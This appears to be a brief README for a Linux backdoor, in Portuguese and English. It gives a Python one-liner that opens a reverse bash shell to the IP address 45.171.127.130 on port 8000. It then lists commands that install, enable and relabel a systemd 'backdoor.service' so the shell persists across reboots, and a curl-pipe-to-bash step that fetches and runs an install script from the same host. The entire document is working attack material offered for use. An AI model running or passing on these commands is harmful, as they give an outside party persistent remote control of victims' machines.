 # Backdoor

> import os ; os.system('bash -i >& /dev/tcp/45.171.127.130/8000 0>&1')

### Selinux
restorecon -RFv /usr/lib/systemd/system/backdoor.service

### Systemd
cp backdoor.service /usr/lib/systemd/system/
systemctl daemon-reload
systemctl start backdoor.service
systemctl enable backdoor.service

### Instalação
curl -s -L http://45.171.127.130/install.sh | bash